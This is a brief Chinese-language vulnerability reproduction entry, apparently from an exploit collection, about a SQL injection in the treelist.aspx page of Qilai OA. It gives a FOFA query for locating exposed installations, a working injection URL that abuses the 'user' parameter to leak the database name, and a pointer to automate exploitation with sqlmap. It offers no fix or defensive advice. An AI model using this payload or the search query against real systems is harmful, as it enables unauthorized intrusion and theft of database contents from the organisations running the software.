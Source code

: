 # 启莱OA treelist.aspx SQL注入漏洞

## 漏洞描述

启莱OA treelist.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
启莱OA
```

## FOFA

```
app="启莱OA"
```

## 漏洞复现

登录页面如下



![qilai-1-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-1-1.png)

存在SQL注入的文件为 treelist.aspx

```plain
http://xxx.xxx.xxx.xxx/client/treelist.aspx?user=' and (select db_name())>0--&pwd=1
```

![qilai-1-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-1-2.png)

使用SQLmap对参数 user 进行注入

![qilai-1-3](https://typora-1308934770.cos.ap-beijing.myqcloud.com/qilai-1-3.png)

